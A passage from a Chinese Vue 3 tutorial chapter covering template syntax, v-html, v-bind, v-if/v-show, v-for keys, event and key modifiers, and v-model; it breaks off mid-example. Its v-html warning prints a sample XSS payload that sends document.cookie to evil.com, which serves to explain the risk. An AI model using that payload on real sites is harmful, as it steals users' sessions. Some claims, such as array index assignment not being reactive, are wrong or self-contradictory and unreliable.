

+++
title = "第3章 Vue 3 核心语法"
weight = 30
date = "2026-03-25T12:54:00+08:00"
type = "docs"
description = ""
isCJKLanguage = true
draft = false
+++

# 第三章 Vue 3 核心语法

> Vue 3 的核心语法就是你每天都要用的"家常便饭"。模板插值、条件渲染、列表渲染、事件处理、双向绑定、class 和 style 绑定——这些语法构成了 Vue 开发的基石。学好这一章，你就能写出大部分日常需求的代码了。这一章的内容非常实用，建议打开你的 IDE，跟着例子一个个敲过去，不要只看不练。

## 3.1 模板语法

### 3.1.1 双大括号插值（Mustache）

Vue 的模板语法是 Vue 最独特的地方——你可以在 HTML 里直接写 JavaScript 表达式，而不需要学习一套全新的模板语言。这种"在 HTML 里嵌 JavaScript"的写法有个专门的名字叫 **Mustache（胡子）语法**，因为 `{{ }}` 两个大括号看起来像一只小胡子。

**双大括号插值**是最基本的语法，它可以把一个 JavaScript 表达式的结果渲染到页面上：

```vue
<script setup>
import { ref } from 'vue'

// 普通字符串
const message = ref('你好，Vue 3！')

// 数字
const count = ref(42)

// 布尔值
const isActive = ref(true)

// 对象
const user = ref({ name: '小明', age: 25 })

// 数组
const tags = ref(['前端', 'Vue', 'JavaScript'])
</script>

<template>
  <!-- 插值可以显示任何 JavaScript 表达式的结果 -->
  <p>{{ message }}</p>           <!-- 输出：你好，Vue 3！ -->
  <p>{{ count + 10 }}</p>         <!-- 输出：52 -->
  <p>{{ isActive ? '启用' : '禁用' }}</p>  <!-- 输出：启用 -->
  <p>{{ user.name }}今年{{ user.age }}岁</p>  <!-- 输出：小明今年25岁 -->
  <p>{{ tags.join('、') }}</p>    <!-- 输出：前端、Vue、JavaScript -->
</template>
```

双大括号里可以是**任何 JavaScript 表达式**——算术运算、三元运算符、方法调用、数组方法等都可以。但要注意，**不能用 if 语句**（`{{ if (x) { } }}` 不合法），只能用表达式。如果你想根据条件显示不同内容，用 `v-if` 指令（后面会讲到）。

**一个重要的特性：文本插值不会渲染 HTML。** 如果你的字符串里含有 HTML 标签，比如 `message.value = '<strong>粗体</strong>'`，双大括号会把这个当作文本来显示，而不是渲染成真正的粗体。要渲染原始 HTML，需要用 `v-html` 指令。

### 3.1.2 原始 HTML（v-html）

有时候你确实需要把一段 HTML 字符串渲染成真正的 HTML 元素——比如从服务器获取了一段富文本内容，或者用了一个 Markdown 渲染库生成了 HTML。这时候可以用 `v-html` 指令。

```vue
<script setup>
import { ref } from 'vue'

// 一段包含 HTML 标签的字符串
const htmlContent = ref('<strong>加粗文字</strong>和<em>斜体文字</em>')
const cardData = ref({
  title: 'Vue 3 入门指南',
  desc: '这是一本<strong>非常好</strong>的教程'
})
</script>

<template>
  <!-- v-html 会把字符串当作 HTML 来渲染 -->
  <!-- ⚠️ 注意：永远不要对用户输入的字符串使用 v-html，可能导致 XSS 攻击！ -->
  <div v-html="htmlContent"></div>

  <!-- 更常见的用法：渲染从 API 获取的富文本 -->
  <article>
    <h2>{{ cardData.title }}</h2>
    <div v-html="cardData.desc"></div>
  </article>
</template>
```

**⚠️ 安全警告：** `v-html` 是一个"危险"的指令，因为它会把传入的字符串当作真正的 HTML 来执行。如果这个字符串来自用户的输入（比如评论内容、帖子正文），攻击者可能注入一段恶意脚本 `<script>document.location='http://evil.com/?c='+document.cookie</script>`，获取用户的 cookie 信息（也就是"偷cookie"攻击，术语叫 XSS——跨站脚本攻击）。生产环境中，对任何用户生成的内容使用 `v-html` 之前，务必先做 HTML 转义（escape）和过滤处理。

### 3.1.3 属性绑定（v-bind，缩写 :）

双大括号只能用在**标签的内容**（开始标签和结束标签之间）里，不能用在 HTML 标签的**属性**里。要动态绑定一个属性的值，需要用 `v-bind` 指令：

```vue
<script setup>
import { ref } from 'vue'

const title = ref('这是标题')
const isDisabled = ref(true)
const imgUrl = ref('https://picsum.photos/200')
const dynamicClass = ref('active')
</script>

<template>
  <!-- v-bind:属性名="表达式" -->
  <h1 v-bind:title="title">鼠标悬停看看</h1>

  <!-- 缩写：v-bind:xxx 可以简写成 :xxx -->
  <button :disabled="isDisabled">不可点击的按钮</button>

  <!-- 图片的 src 属性 -->
  

  <!-- class 也可以用 v-bind -->
  <div :class="dynamicClass">动态 class</div>

  <!-- 多个属性绑定 -->
  <a :href="url" :target="target">链接</a>
</template>
```

`v-bind` 是 Vue 里最常用的指令之一，它的作用是"把右边表达式的值，绑定到左边这个 HTML 属性上"。当表达式的值变化时，属性会自动更新。

缩写 `:xxx` 是 `v-bind:xxx` 的简写，这是实际开发中更常见的写法，因为更简洁。Vue 的模板里，你经常会看到 `:src`、`:class`、`:disabled` 等，这全都是 `v-bind:` 的缩写。

### 3.1.4 JavaScript 表达式支持

Vue 的模板支持完整的 JavaScript 表达式，但只能写**单行表达式**，不能写语句（if、for 等）。这已经覆盖了 99% 的日常需求。

```vue
<script setup>
import { ref } from 'vue'

const firstName = ref('张')
const lastName = ref('三')
const count = ref(5)
const isLoggedIn = ref(true)
const items = ref(['苹果', '香蕉', '橙子'])
const user = ref({ role: 'admin' })
</script>

<template>
  <!-- 字符串拼接 -->
  <p>{{ firstName + lastName }}</p>          <!-- 张三 -->

  <!-- 算术运算 -->
  <p>{{ count * 2 + 1 }}</p>                  <!-- 11 -->

  <!-- 三元运算符 -->
  <p>{{ isLoggedIn ? '欢迎回来' : '请登录' }}</p>  <!-- 欢迎回来 -->

  <!-- 逻辑运算符 -->
  <p>{{ count > 3 && '大于3' }}</p>            <!-- 大于3 -->

  <!-- 调用数组方法 -->
  <p>{{ items.filter(i => i.includes('果')).join('、') }}</p>  <!-- 苹果、橙子 -->

  <!-- 调用字符串方法 -->
  <p>{{ user.role.toUpperCase() }}</p>        <!-- ADMIN -->

  <!-- 模板里的表达式 -->
  <p>{{ count > 10 ? '太多了' : '还好' }}</p>
</template>
```

需要特别注意的是：**模板里的表达式有它自己的作用域。** 在 `<script setup>` 里定义的变量，可以直接在模板里使用，因为模板可以访问 `setup` 返回的一切。

### 3.1.5 模板语法限制

Vue 模板的表达式有一些**硬性限制**，需要提前知道：

1. **不能写语句**：不能写 `if`、`for`、`switch`、变量声明（`let`、`const`）等。只能用表达式。
2. **不能访问全局对象**：在模板里不能写 `window`、`document`、`Math`、`JSON`（Vue 3.1+ 支持 `Math`，但最好不用）。需要用到这些时，在 `<script setup>` 里先处理好，再传给模板。
3. **不能修改父组件的数据**：模板里的表达式不应该有副作用（修改其他值）。Vue 的模板应该是"纯函数"——给定同样的数据，总是渲染出同样的结果。

```vue
<script setup>
// 正确的做法：把 Math 处理结果放到模板能访问的地方
const now = new Date()
const randomNum = Math.floor(Math.random() * 100)  // 不要在模板里直接调用 Math.random()
// 更推荐的写法：
import { computed } from 'vue'
const PI = computed(() => 3.14159)
</script>

<template>
  <!-- ❌ 错误：在模板里调用 Math.random() 会产生副作用，每次渲染结果不一样 -->
  <!-- <p>{{ Math.random() }}</p> -->

  <!-- ✅ 正确：在 script 里计算好，再传给模板 -->
  <p>随机数：{{ randomNum }}</p>
  <p>圆周率：{{ PI }}</p>

  <!-- ❌ 错误：不能修改数据 -->
  <!-- {{ count++ }} 这样写会报错！修改数据要用方法 -->
</template>
```

## 3.2 条件渲染

### 3.2.1 v-if / v-else-if / v-else

条件渲染是根据数据的真假，决定是否渲染某个元素。Vue 提供了 `v-if`、`v-else-if` 和 `v-else` 三个指令，用法和 JavaScript 的 if/else if/else 完全一样。

```vue
<script setup>
import { ref } from 'vue'

const role = ref('admin')
const score = ref(85)
const isLoading = ref(false)
</script>

<template>
  <!-- v-if：条件为 true 时渲染 -->
  <div v-if="isLoading">加载中...</div>

  <!-- v-else：和前一个 v-if 配对 -->
  <div v-else>加载完成</div>

  <!-- v-else-if：多重条件 -->
  <div v-if="role === 'admin'">管理员权限</div>
  <div v-else-if="role === 'editor'">编辑权限</div>
  <div v-else-if="role === 'user'">普通用户权限</div>
  <div v-else>访客权限</div>

  <!-- 配合 template 标签可以一次性控制多个元素 -->
  <template v-if="score >= 90">
    <p>成绩：{{ score }}</p>
    <p>评级：优秀 🎉</p>
  </template>

  <!-- 注意：v-if 和 v-else-if 之间不能有其他元素 -->
  <!-- 下面的写法是错误的： -->
  <!-- <div v-if="role === 'admin'">管理员</div> -->
  <!-- <span>中间插了一个元素</span> -->
  <!-- <div v-else>访客</div> -->
</template>
```

`v-if` 是**真正的条件渲染**——如果条件为 false，Vue 不会渲染这个元素到 DOM 里（可以通过开发者工具看到元素根本不存在）。这和 `v-show`（下一节会讲）有本质区别。

### 3.2.2 v-if vs v-show 区别与选择

Vue 有两个控制显示隐藏的指令：`v-if` 和 `v-show`。它们看起来差不多，但实现原理完全不同，适用的场景也完全不同。

| | v-if | v-show |
|---|---|---|
| **实现原理** | 真正的 DOM 插入/删除 | 始终渲染，只是切换 CSS display |
| **初始成本** | 高（条件为 false 时不渲染） | 低（初始必定渲染） |
| **切换成本** | 高（重新创建/销毁 DOM） | 低（只切换 display 样式） |
| **适用场景** | 不频繁切换、内容复杂 | 频繁切换、内容简单 |
| **配合指令** | 支持 v-else-if / v-else | 不支持（只能单独用） |

```vue
<script setup>
import { ref } from 'vue'

const isVisible = ref(true)
const showModal = ref(false)
</script>

<template>
  <!-- v-if：条件为 false 时，元素直接不存在于 DOM 中 -->
  <div v-if="isVisible">我会显示</div>
  <div v-if="!isVisible">我不会显示，DOM 里根本没有我</div>

  <!-- v-show：始终存在于 DOM，只是 CSS display 为 none -->
  <div v-show="isVisible">我用 v-show 控制</div>
  <div v-show="!isVisible" style="display: none;">我用 v-show 控制，DOM 里还在，只是看不见</div>

  <!-- 频繁切换的场景 —— 用 v-show -->
  <button @click="showModal = !showModal">切换弹窗</button>
  <div v-show="showModal" class="modal">这是一个弹窗</div>

  <!-- 条件很少变化、内容复杂的场景 —— 用 v-if -->
  <div v-if="Math.random() > 0.5">
    <p>复杂的嵌套内容，包含很多子元素</p>
    <p>{{ Math.random() }}</p>
    
  </div>
</template>
```

**什么时候用哪个？** 原则很简单：

- 如果一个元素**切换非常频繁**（比如弹窗的显示/隐藏、Tab 切换），用 `v-show`，因为它只切换 CSS，不重新创建 DOM，开销小。
- 如果一个元素**条件很少变化**（比如权限判断、内容根据用户角色显示不同），用 `v-if`，因为它能彻底把不必要的内容从 DOM 中移除，减少内存占用。
- 如果一个元素初始可能是隐藏的，**但页面加载性能很重要**，也倾向于用 `v-if`，因为它初始不渲染，可以减少首屏渲染时间。

### 3.2.3 v-if 与 key 的配合

有时候，你可能希望 Vue 不仅控制元素的显示/隐藏，而是**彻底销毁和重新创建**这个元素——比如你有两个表单，切换时希望表单的状态（比如输入框的内容）被完全重置。这时候可以用 `key` 属性。

```vue
<script setup>
import { ref } from 'vue'

const tab = ref('login')
</script>

<template>
  <!-- 点击切换时，Vue 会认为这是不同的组件 -->
  <!-- 因为 key 不一样，所以会销毁旧的、创建新的（完全重置状态） -->
  <div v-if="tab === 'login'" key="login-form">
    <h2>登录</h2>
    <input placeholder="用户名" />
    <input type="password" placeholder="密码" />
  </div>
  <div v-else key="register-form">
    <h2>注册</h2>
    <input placeholder="用户名" />
    <input type="password" placeholder="密码" />
    <input type="email" placeholder="邮箱" />
  </div>

  <!-- 简写：如果不写 key，Vue 会尽量复用已有的 DOM 元素（性能更好） -->
  <!-- 写上 key，可以强制 Vue 不复用，重新创建 -->
</template>
```

Vue 的虚拟 DOM diff 算法会尽量复用已有的 DOM 元素来提高性能——这叫做"元素复用"或"元素就地更新"。给元素加上 `key` 属性后，Vue 知道"这两个元素即使看起来一样，但实际上不是同一个"，就会销毁旧元素、创建新元素。这个机制常用于**强制重置表单状态**或者**动画切换**等场景。

## 3.3 列表渲染

### 3.3.1 v-for 遍历数组、对象、数字、字符串

`v-for` 是 Vue 里最强大的指令之一，它可以遍历数组、对象、数字、字符串等各种可迭代对象，把数据一一映射到页面上。

```vue
<script setup>
import { ref } from 'vue'

// 数组
const fruits = ref(['苹果', '香蕉', '橙子', '葡萄'])

// 对象
const person = ref({
  name: '小明',
  age: 25,
  city: '北京',
  hobby: '编程'
})

// 数字
const count = ref(5)

// 字符串
const text = ref('Hello')
</script>

<template>
  <!-- 遍历数组：item 是当前元素，index 是索引 -->
  <ul>
    <li v-for="(fruit, index) in fruits" :key="index">
      {{ index + 1 }}. {{ fruit }}
    </li>
  </ul>

  <!-- 遍历对象：value 是值，key 是属性名，index 是索引 -->
  <dl>
    <template v-for="(value, key, index) in person" :key="key">
      <dt>{{ key }}</dt>
      <dd>{{ value }}</dd>
    </template>
  </dl>

  <!-- 遍历数字：item 是从 1 到 n 的数字 -->
  <p>
    <span v-for="n in count" :key="n">{{ n }} </span>
  </p>

  <!-- 遍历字符串：item 是每个字符 -->
  <p>
    <span v-for="(char, i) in text" :key="i">{{ char }} </span>
  </p>
</template>
```

### 3.3.2 key 的作用与唯一性要求

**`key` 是 v-for 里最重要的属性！** 它告诉 Vue"每个渲染出来的元素是独一无二的"。有了 key，Vue 在更新列表时就能精准地找到"哪个元素变了、哪个元素删了、哪个元素新增了"，而不是傻傻地把整个列表重新渲染一遍。

```vue
<script setup>
import { ref } from 'vue'

const users = ref([
  { id: 1, name: '张三', age: 25 },
  { id: 2, name: '李四', age: 30 },
  { id: 3, name: '王五', age: 28 }
])

function addUser() {
  users.value.unshift({ id: Date.now(), name: '新用户', age: 20 })
}
</script>

<template>
  <button @click="addUser">添加用户</button>

  <!-- key 必须唯一！不能用 index 作为 key 的场景后面会讲 -->
  <!-- 这里用 user.id，因为它是唯一的 -->
  <div v-for="user in users" :key="user.id">
    {{ user.name }} - {{ user.age }}岁
  </div>
</template>
```

### 3.3.3 为什么不能以 index 作为 key

这是一个面试高频题，也是一个实际开发中的大坑。

**用 index（索引）作为 key 在大多数简单场景下看起来没问题**——列表渲染时，index 从 0 开始递增，每个元素都有一个唯一的数字。Vue 会很开心地渲染出 `[0, 1, 2, 3...]` 这些 key。

**但问题出现在"列表中间插入或删除元素"的时候。** 让我用图来解释：



当用 index 做 key 时，插入前 `[张三, 李四, 王五]` 的 key 是 `[0, 1, 2]`，插入后变成 `[赵六, 张三, 李四, 王五]` 的 key 是 `[0, 1, 2, 3]`。

**问题来了：** Vue 的 diff 算法看到的是：key 0 的人从张三变成了赵六（更新），key 1 的人从李四变成了张三（更新），key 2 的人从王五变成了李四（更新），key 3 是新增的。这意味着 Vue 以为所有的 DOM 节点都"变了"，它会**销毁所有旧的 DOM 节点，重新创建新的**——这完全违背了"复用 DOM、只做最小更新"的初衷，性能大打折扣。

如果用 `id` 做 key，插入后的结构变成：key `赵六的id`（新增）、key `1`（张三，没变）、key `2`（李四，没变）、key `3`（王五，没变）——Vue 只创建一个新的 DOM 节点，其他全部复用，性能最优。

**结论：永远不要用 index 作为 key。** 用数据的唯一标识字段（id、uuid、nanoid 等）作为 key。

### 3.3.4 数组更新检测（push/pop/shift/splice 等）

Vue 3 的响应式系统能检测到大部分数组操作的变化，包括：`push()`（末尾添加）、`pop()`（末尾删除）、`shift()`（头部删除）、`unshift()`（头部添加）、`splice()`（插入/删除/替换）、`sort()`（排序）、`reverse()`（反转）。

```vue
<script setup>
import { ref } from 'vue'

const colors = ref(['红', '绿', '蓝'])

function addColor() {
  // 末尾添加
  colors.value.push('黄')
}

function removeFirst() {
  // 头部删除
  colors.value.shift()
}

function insertSecond() {
  // 在索引1的位置插入一个元素（不删除）
  colors.value.splice(1, 0, '粉')
}

function replaceSecond() {
  // 在索引1的位置替换一个元素
  colors.value.splice(1, 1, '紫')
}

function reverseColors() {
  // 反转
  colors.value.reverse()
}

function sortColors() {
  // 排序（按 Unicode 编码排序）
  colors.value.sort()
}
</script>

<template>
  <p>当前颜色：{{ colors.join('、') }}</p>

  <button @click="addColor">添加黄色</button>
  <button @click="removeFirst">删除第一个</button>
  <button @click="insertSecond">在第二个位置插入粉色</button>
  <button @click="replaceSecond">把第二个替换成紫色</button>
  <button @click="reverseColors">反转顺序</button>
  <button @click="sortColors">排序</button>
</template>
```

**一个重要的例外：直接通过索引赋值不会自动检测到变化！** 比如 `colors.value[0] = '新颜色'` 不会触发视图更新。正确的做法是使用 `splice`：

```typescript
// ❌ 错误：不会触发响应式更新
colors.value[0] = '新颜色'

// ✅ 正确：用 splice
colors.value.splice(0, 1, '新颜色')
```

Vue 3 已经改善了这个问题——Proxy 可以检测到数组索引的赋值操作，但为了兼容性考虑（以及代码清晰），还是推荐使用数组方法来进行修改。

### 3.3.5 过滤与排序（计算属性配合）

列表渲染最常见的场景之一是"过滤和排序"——比如一个商品列表，用户输入关键词后只显示匹配的商品，或者按价格排序。这正好是**计算属性（computed）** 的经典应用场景。

```vue
<script setup>
import { ref, computed } from 'vue'

const products = ref([
  { id: 1, name: 'iPhone 15', price: 7999, category: '手机' },
  { id: 2, name: 'MacBook Pro', price: 19999, category: '电脑' },
  { id: 3, name: 'AirPods Pro', price: 1899, category: '配件' },
  { id: 4, name: 'iPad Air', price: 4799, category: '平板' },
  { id: 5, name: 'Apple Watch', price: 2999, category: '手表' },
  { id: 6, name: '小米 14', price: 3999, category: '手机' }
])

const searchKeyword = ref('')
const sortBy = ref('default') // default | price-asc | price-desc

// 计算属性：根据关键词过滤 + 根据排序方式排序
const filteredProducts = computed(() => {
  let result = [...products.value]  // 先复制一份，避免修改原数组

  // 过滤
  if (searchKeyword.value) {
    result = result.filter(p =>
      p.name.toLowerCase().includes(searchKeyword.value.toLowerCase()) ||
      p.category.toLowerCase().includes(searchKeyword.value.toLowerCase())
    )
  }

  // 排序
  if (sortBy.value === 'price-asc') {
    result.sort((a, b) => a.price - b.price)
  } else if (sortBy.value === 'price-desc') {
    result.sort((a, b) => b.price - a.price)
  }

  return result
})
</script>

<template>
  <!-- 搜索框 -->
  <input v-model="searchKeyword" placeholder="搜索商品名称或分类..." />

  <!-- 排序选择 -->
  <select v-model="sortBy">
    <option value="default">默认顺序</option>
    <option value="price-asc">价格从低到高</option>
    <option value="price-desc">价格从高到低</option>
  </select>

  <!-- 商品列表 -->
  <div class="product-list">
    <div v-for="product in filteredProducts" :key="product.id" class="product-card">
      <h3>{{ product.name }}</h3>
      <p>分类：{{ product.category }}</p>
      <p class="price">￥{{ product.price.toLocaleString() }}</p>
    </div>
  </div>

  <!-- 没有结果时 -->
  <p v-if="filteredProducts.length === 0">没有找到匹配的商品</p>
</template>

<style scoped>
.product-list {
  display: grid;
  grid-template-columns: repeat(auto-fill, minmax(200px, 1fr));
  gap: 16px;
}

.product-card {
  border: 1px solid #ddd;
  padding: 12px;
  border-radius: 8px;
}

.price {
  color: #e63946;
  font-weight: bold;
}
</style>
```

计算属性的好处是：**它会自动缓存结果**。只要 `products`、`searchKeyword` 和 `sortBy` 没有变化，无论 `filteredProducts` 被访问多少次，Vue 不会重复计算——只有当这些依赖变化时，才会重新计算。相比之下，如果你在模板里直接写过滤和排序的逻辑，每次渲染都会重复计算，浪费性能。

## 3.4 事件处理

### 3.4.1 事件绑定（v-on，缩写 @）

在 Vue 里，用户和页面的交互（点击按钮、按下键盘、输入文字等）都是通过**事件**来处理的。Vue 用 `v-on` 指令来绑定事件处理函数。

```vue
<script setup>
function handleClick() {
  console.log('按钮被点击了！')
}

function handleInput(e) {
  console.log('输入了：', e.target.value)
}

function handleSubmit() {
  console.log('表单提交了')
}
</script>

<template>
  <!-- v-on:事件名="处理函数" -->
  <button v-on:click="handleClick">点我</button>

  <!-- @事件名 是 v-on:事件名 的简写，实际开发中更常用 -->
  <input @input="handleInput" placeholder="输入点东西..." />
  <form @submit.prevent="handleSubmit">
    <button type="submit">提交表单</button>
  </form>
</template>
```

`@` 是 `v-on:` 的缩写，是 Vue 模板里最常见的写法之一。两者完全等价。

### 3.4.2 内联处理器 vs 方法处理器

事件处理有两种写法：**内联处理器**（直接写表达式）和**方法处理器**（调用一个已定义的函数）。

```vue
<script setup>
import { ref } from 'vue'

const count = ref(0)

// 方法处理器：把函数名当作事件处理函数
function increment() {
  count.value++
}

function greet(name) {
  console.log(`你好，${name}！`)
}
</script>

<template>
  <!-- 方法处理器：handleClick 是上面定义的函数 -->
  <button @click="increment">计数：{{ count }}</button>

  <!-- 内联处理器：直接在模板里写表达式，适合简单逻辑 -->
  <button @click="count++">内联方式 +1</button>

  <!-- 内联处理器也可以传参数 -->
  <button @click="greet('小明')">打招呼</button>

  <!-- 如果方法需要事件对象，用 $event -->
  <button @click="(e) => handleClick(e)">带事件对象</button>
  <!-- 或者用这种写法：Vue 会自动把事件对象作为第一个参数传入 -->
  <button @click="handleClick">传事件对象（另一种写法）</button>
</template>
```

**什么时候用哪个？** 原则是：

- 逻辑简单（只有一行）→ 内联处理器更直观
- 逻辑复杂（有多个语句、需要复用）→ 方法处理器更清晰

```vue
<script setup>
// 方法处理器 —— 逻辑复杂的时候用
function handleFormSubmit(e) {
  e.preventDefault()
  const formData = new FormData(e.target)
  console.log('用户名：', formData.get('username'))
  console.log('密码：', formData.get('password'))
  // 发送 API 请求...
}
</script>

<template>
  <form @submit.prevent="handleFormSubmit">
    <!-- .prevent 是事件修饰符，后面会讲 -->
    <input name="username" placeholder="用户名" />
    <input name="password" type="password" />
    <button type="submit">登录</button>
  </form>
</template>
```

### 3.4.3 事件修饰符（stop、prevent、capture、self、once、passive）

事件修饰符是 Vue 提供的一种简写，用来快速处理常见的事件行为，而不需要在处理函数里手动调用 `e.stopPropagation()` 或 `e.preventDefault()`。

| 修饰符 | 等价的 JS 操作 | 用途 |
|--------|----------------|------|
| `.stop` | `e.stopPropagation()` | 阻止事件冒泡 |
| `.prevent` | `e.preventDefault()` | 阻止默认行为 |
| `.capture` | 捕获阶段处理 | 使用事件捕获而不是冒泡 |
| `.self` | 事件源是自身 | 只有自身是事件源时才触发 |
| `.once` | — | 事件只触发一次 |
| `.passive` | — | 提升滚动性能（不调用 preventDefault） |

```vue
<script setup>
function handleDivClick() {
  console.log('div 被点击了')
}

function handleBtnClick(e) {
  console.log('按钮被点击了')
}

function handleLinkClick() {
  console.log('链接被点击了')
}
</script>

<template>
  <!-- .stop —— 阻止事件冒泡 -->
  <!-- 点击按钮时，不会触发 div 的点击事件 -->
  <div @click="handleDivClick">
    <button @click.stop="handleBtnClick">点我（不会冒泡到 div）</button>
  </div>

  <!-- .prevent —— 阻止默认行为 -->
  <!-- 点击链接不会跳转到 href 的地址 -->
  <a href="https://example.com" @click.prevent="handleLinkClick">点击我不跳转</a>

  <!-- .self —— 只有点击元素自身时才触发（子元素的不算） -->
  <div @click.self="handleDivClick">
    <p>里面的内容</p>
    <button>按钮</button>
    <!-- 点击按钮会冒泡到 div，但 .self 不会触发 -->
    <!-- 只有直接点击 div 本身才会触发 -->
  </div>

  <!-- .once —— 事件只触发一次 -->
  <button @click.once="handleBtnClick">只触发一次</button>

  <!-- .passive —— 提升滚动性能，scroll 事件不会阻塞页面 -->
  <!-- 特别适合 window.addEventListener('scroll', handler, { passive: true }) -->
  <div @scroll.passive="handleScroll" class="scrollable-box">
    大量的内容...
  </div>
</template>
```

### 3.4.4 按键修饰符（enter、tab、esc、space 等）

Vue 为键盘事件提供了专门的修饰符，用来监听特定按键的按下。

```vue
<script setup>
function handleEnter() {
  console.log('用户按了回车键')
}

function handleEsc() {
  console.log('用户按了退出键')
}

function handleSpace() {
  console.log('用户按了空格键')
}
</script>

<template>
  <!-- 按下回车键时触发 -->
  <input @keydown.enter="handleEnter" placeholder="按回车提交..." />

  <!-- 按下 Esc 时触发 -->
  <input @keydown.esc="handleEsc" placeholder="按 Esc 清空..." />

  <!-- 按下空格键时触发 -->
  <button @keydown.space="handleSpace">按空格键</button>

  <!-- 任意按键 —— .exact 修饰符（精确修饰符） -->
  <!-- 只有 Ctrl + Enter 时才触发，Ctrl + 其他键不会触发 -->
  <textarea @keydown.ctrl.enter="handleCtrlEnter"></textarea>
</template>
```

常用的按键修饰符包括：`enter`、`tab`、`delete`（删除键）、`esc`、`space`、`up`、`down`、`left`、`right`。如果这些不够用，还可以用 `e.key` 的值来指定任意按键，比如 `@keydown.a`（按 A 键）或 `@keydown.page-down`（按 Page Down 键）。

### 3.4.5 系统修饰符（ctrl、shift、alt、meta、exact）

系统修饰符用来监听"系统级"的按键组合，比如 `Ctrl+C`（复制）、`Ctrl+S`（保存）等。

```vue
<script setup>
function handleSave() {
  console.log('Ctrl + S 保存快捷键触发了！')
}

function handleCopy() {
  console.log('Ctrl + C 复制触发了！')
}

function handleRightClick() {
  console.log('右键菜单')
}

// .exact —— 精确匹配修饰符
// 只有 Ctrl+Shift+Z 时触发，单独 Ctrl 或单独 Shift 都不行
function handleRedo() {
  console.log('Ctrl + Shift + Z (重做)')
}
</script>

<template>
  <!-- Ctrl + S -->
  <div @keydown.ctrl.s.prevent="handleSave">
    按住 Ctrl 再按 S（页面级快捷键）
  </div>

  <!-- Shift + 单击 —— 经常用于多选 -->
  <button @click.shift="handleShiftClick">Shift + Click（多选模式）</button>

  <!-- Alt + Enter -->
  <textarea @keydown.alt.enter="handleAltEnter"></textarea>

  <!-- .exact —— 精确组合 -->
  <button @click.exact="handleExactClick">只有在没有任何修饰键时才触发</button>

  <!-- 右键点击（自定义右键菜单） -->
  <div @contextmenu.prevent="handleRightClick">右键点击我</div>
</template>
```

### 3.4.6 鼠标按钮修饰符

Vue 还提供了鼠标按钮的修饰符，用来区分鼠标左键、右键和中键。

```vue
<script setup>
function handleLeftClick() {
  console.log('鼠标左键点击')
}

function handleRightClick(e) {
  e.preventDefault()  // 阻止默认右键菜单
  console.log('鼠标右键点击')
}

function handleMiddleClick() {
  console.log('鼠标中键点击（滚轮点击）')
}
</script>

<template>
  <button @click.left="handleLeftClick">左键点击我</button>
  <button @click.right.prevent="handleRightClick">右键点击我</button>
  <button @click.middle="handleMiddleClick">中键点击我</button>
</template>
```

## 3.5 双向绑定

### 3.5.1 v-model 基础（表单场景）

`v-model` 是 Vue 里最神奇也最常用的指令之一。它的作用是**双向绑定**——数据变化，视图自动更新；用户修改视图，数据也自动变化。

在表单场景下，`v-model` 让"获取用户输入"变得极其简单：

```vue
<script setup>
import { ref } from 'vue'

// v-model 会自动把用户输入的值同步到这些 ref 上
const username = ref('')
const email = ref('')
const password = ref('')
const gender = ref('')
const subscribe = ref(false)
const city = ref('')

function handleSubmit() {
  console.log('用户名：', username.value)
  console.log('邮箱：', email.value)
  console.log('密码：', password.value)
  console.log('性别：', gender.value)
  console.log('订阅：', subscribe.value)
  console.log('城市：', city.value)
}
</script>

<template>
  <form @submit.prevent="handleSubmit">
    <!-- 文本输入 -->
    <input v-model="username" placeholder="用户名" type="text" />
    <!-- 等价于：<input :value="username" @input="username = $event.target.value" /> -->

    <!-- 邮箱输入 -->
    <input v-model="email" placeholder="邮箱" type="email" />

    <!-- 密码输入 -->
    <input v-model="password" placeholder="密码" type="password" />

    <!-- 单选框 -->
    <div>
      <label><input type="radio" v-model="gender" value="male" /> 男</label>
      <label><input type="radio" v-model="gender" value="female" /> 女</label>
      <label><input type="radio" v-model="gender" value="other" /> 其他</label>
    </div>

    <!-- 复选框 -->
    <label>
      <input type="checkbox" v-model="subscribe" />
      订阅我们的 newsletter
    </label>

    <!-- 下拉选择 -->
    <select v-model="city">
      <option value="">请选择城市</option>
      <option value="beijing">北京</option>
      <option value="shanghai">上海</option>
      <option value="shenzhen">深圳</option>
    </select>

    <button type="submit">提交</button>
  </form>
</template>
```

`v-model` 的神奇之处在于，它对不同类型的表单元素有不同的默认行为：

- `input[type=text]` / `textarea`：绑定 `value` 属性，监听 `input` 事件
- `input[type=checkbox/radio]`：绑定 `checked` 属性，监听 `change` 事件
- `select`：绑定 `value` 属性，监听 `change` 事件

### 3.5.2 v-model 修饰符（.lazy、.number、.trim）

`v-model` 有三个修饰符，用来微调双向绑定的行为：

```vue
<script setup>
import { ref } from 'vue'

// .lazy —— 失去焦点或按回车时才更新（不实时同步）
const lazyInput = ref('')

// .number —— 自动把输入转成数字（如果能转的话）
const numericInput = ref<number>(0)

